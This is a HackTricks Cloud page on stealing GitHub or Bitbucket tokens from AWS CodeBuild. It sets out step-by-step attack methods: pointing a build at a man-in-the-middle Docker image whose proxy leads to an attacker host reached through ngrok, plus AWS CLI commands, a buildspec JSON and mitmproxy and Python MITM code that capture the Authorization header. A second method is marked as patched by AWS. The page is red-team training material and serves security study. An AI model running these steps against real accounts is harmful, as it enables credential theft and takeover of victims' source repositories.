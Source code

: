 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured tha you could leak:

```bash
aws codebuild list-source-credentials
```

### Via Docker Image

If you find that authentication to for example Github is set in the account, you can **exfiltrate** that **access** (**GH token or OAuth token**) by making Codebuild to **use an specific docker image** to run the build of the project.

For this purpose you could **create a new Codebuild project** or change the **environment** of an existing one to set the **Docker image**.

The Docker image you could use is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). This is a very basic Docker image that will set the **env variables `https_proxy`**, **`http_proxy`** and **`SSL_CERT_FILE`**. This will allow you to intercept most of the traffic of the host indicated in **`https_proxy`** and **`http_proxy`** and trusting the SSL CERT indicated in **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
   * Follow the instructions of the repo to set your proxy IP address and set your SSL cert and **build the docker image**.
     * **DO NOT SET `http_proxy`** to not intercept requests to the metadata endpoint.
   * You could use **`ngrok`** like `ngrok tcp 4444` lo set the proxy to your host
   * Once you have the Docker image built, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
   * Create a **new Codebuild project** or **modify** the environment of an existing one.
   * Set the project to use the **previously generated Docker image**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* As indicated in the **Github repo** you could use something like:

```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```

{% hint style="success" %}
The **mitmproxy version used was 9.0.1**, it was reported that with version 10 this might not work.
{% endhint %}

4. **Run the build & capture the credentials**

*   You can see the token in the **Authorization** header:

    <figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

This could also be done from the aws cli with something like

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
    "name": "my-demo-project",
    "source": {
        "type": "GITHUB",
        "location": "https://github.com/uname/repo",
        "buildspec": "buildspec.yml"
    },
    "artifacts": {
        "type": "NO_ARTIFACTS"
    },
    "environment": {
        "type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
        "image": "docker.io/carlospolop/docker-mitm:v12",
        "computeType": "BUILD_GENERAL1_SMALL",
        "imagePullCredentialsType": "CODEBUILD"
    }
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**This vulnerability was corrected by AWS at some point the week of the 20th of Feb of 2023 (I think on Friday). So an attacker can't abuse it anymore :)**
{% endhint %}

An attacker with **elevated permissions in over a CodeBuild could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

* An attacker could add the environment variables **http\_proxy** and **https\_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http\_proxy and https\_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP], 
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

* Finally, click on **Build the project**, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Now an attacker will be able to use the token from his machine, list all the privileges it has and (ab)use easier than using the CodeBuild service directly.
{% endhint %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
